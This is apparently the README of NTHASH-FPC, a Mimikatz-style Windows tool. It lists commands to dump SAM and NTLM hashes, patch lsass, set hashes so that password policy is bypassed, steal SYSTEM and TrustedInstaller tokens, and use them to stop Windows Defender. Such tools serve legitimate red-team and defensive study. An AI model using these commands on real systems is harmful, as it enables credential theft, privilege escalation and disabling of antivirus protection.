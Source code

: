 # NTHASH-FPC <br/>
A tribute to Mimikatz... <br/>
<br/>
Command line as below: <br/>
NTHASH /setntlm [/server:hostname] /user:username /newhash:xxx <br/>
NTHASH /setntlm [/server:hostname] /user:username /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldpwd:xxx /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldhash:xxx /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldpwd:xxx /newhash:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldhash:xxx /newhash:xxx <br/>
NTHASH /gethash /password:password <br/>
NTHASH /getsid /user:username [/server:hostname] <br/>
NTHASH /getusers [/server:hostname] <br/>
NTHASH /getdomains [/server:hostname <br/>
NTHASH /dumpsam <br/>
NTHASH /dumphashes [/offline] <br/>
NTHASH /dumphash /rid:500 [/offline] <br/>
NTHASH /getsamkey [/offline] <br/>
NTHASH /getsyskey [/offline] <br/>
NTHASH /runasuser /user:username /password:password [/binary: x:\folder\bin.exe] <br/>
NTHASH /runastoken /pid:12345 [/binary: x:\folder\bin.exe] <br/>
NTHASH /runaschild /pid:12345 [/binary: x:\folder\bin.exe] <br/>
NTHASH /enumpriv <br/>
NTHASH /enumproc <br/>
NTHASH /killproc /pid:12345 <br/>
NTHASH /enummod /pid:12345 <br/>
NTHASH /dumpprocess /pid:12345 <br/>
NTHASH /a_command /verbose <br/>
NTHASH /a_command /system <br/>

<b>changentlm</b>, using a legacy api, may not work if your ntlm hashes are encrypted with AES (i.e starting with win10 1607. <br/>
Credits goes to https://github.com/vletoux/NTLMInjector <br/>

<b>setntlm</b> on the other hand should always work and allow one to bypass password policy.  <br/>
Credits goes to https://github.com/vletoux/NTLMInjector <br/>

<b>dumpsam</b> will temporarily patch a module in lsass to be able to dump your SAM ntlm hashes (need to cover/test as many windows version as possible). <br/>

<b>dumphash and dumphashes</b> will read the registry - you need to run as system to perform this action <br/>.
Or you can use the /system switch <br/>.
You can also perform this offline (and then no longer require to run as system). <br/>
Both the RC4 and AES cipher are supported. <br/>
https://www.insecurity.be/blog/2018/01/21/retrieving-ntlm-hashes-and-what-changed-technical-writeup/ is a must read to understand RC4 vs AES. <br/>

<b>runastoken</b> can be used to run a process under a system account. <br/>
Once under a system account, you can also "steal" a token from trustedinstaller (net start trustedinstaller before hand. <br/>
Note that you can steal a trustedinstaller token directly by using the /system switch. <br/>
With a trustedinstaller token, you can perform actions like stop windefend (or kill the process, or modify the AV settings, etc). <br/>

<b>runaschild</b> can be used to run a process as a child of another existing/parent process. <br/>
Note that some apps (like cmd.exe) will crash right after initialization with a c0000142. <br/>
Wierdly enough, loading notepad.exe with this method and then launching cmd.exe from there works...

todo: <br/>
-decrypt sam hashes online (rather than patching lsass) and offline : done in v1.1 <br/>
-deal with new AES cipher used in latest win10 1607 : done in 1.2 <br/>
-enum logondata <br/>
-patch logondata (and perform pth) <br/>

